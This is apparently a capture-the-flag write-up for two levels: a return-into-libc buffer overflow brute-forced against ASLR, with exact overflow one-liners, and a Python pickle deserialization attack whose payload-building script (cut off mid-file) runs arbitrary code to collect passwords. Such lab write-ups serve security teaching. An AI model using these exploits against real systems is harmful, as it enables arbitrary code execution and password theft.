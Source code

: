 level04 is vulnerable to a buffer overflow but it is a bit tricky to exploit because of ASLR. After looking at the entropy of the address (<= 12 bits) for the 'system' method I decided to do a return into libc attack. I found the address of the 'system' method using gdb and the address of a '/bin/sh' string using gdb then overwrote the saved EIP to the address of the system method and added the address of '/bin/sh' as an argument. I tested using gdb without address randomization first then turned on address randomization to find an address and then repeated the same address many times until I was lucky enough to succeed.

- working without address randomisation

    ``` gdb --args ./level04 `perl -e 'print "A" x 1036'``perl -e 'print "\xd0\xe3\xea\xf7\xde\xad\xbe\xef\xee\x6b\xfa\xf7"'` ```

- working with address randomisation. needs to be repeatedly run to succeed.

    ``` /levels/level04 `perl -e 'print "A" x 1036'``perl -e 'print "\xd0\xc3\x66\xf7\xde\xad\xbe\xef\xee\x4b\x76\xf7"'` ```


#Level 05

If you put " job: <pickle_data>" in the post data then the pickle data will be unpickled by the serialization process and python unpickling lets you call arbitrary methods. I used eval+compile to evaluate a python program I wrote. The program goes through all the jobs in the job directory and writes out a corresponding result containing the password in the result directory.

maker.py creates the url encoded string and eval.py is the program I compile and evaluate.

maker.py
--------

    #!/usr/bin/env python
    import re
    import pickle
    import urllib
    import pickletools
    import time

    class Job(object):

        def __init__(self):
            self.id = "lols"
            self.created = time.time()
            self.started = time.time()
            self.completed = time.time()


    evalpy = open("eval.py").read()
    evalpy = evalpy.replace("\\", "\\\\").replace("\n", "\\n")

    print evalpy

    eval(compile("print 'lols'", "test", 'exec'))


    content = "hello friend; job: c__builtin__\neval\n(c__builtin__\ncompile\n(S'%s'\nS'die'\nS'exec'\ntRtR." % (evalpy)

    serialized = "type: JOB; data: %s" % (content)
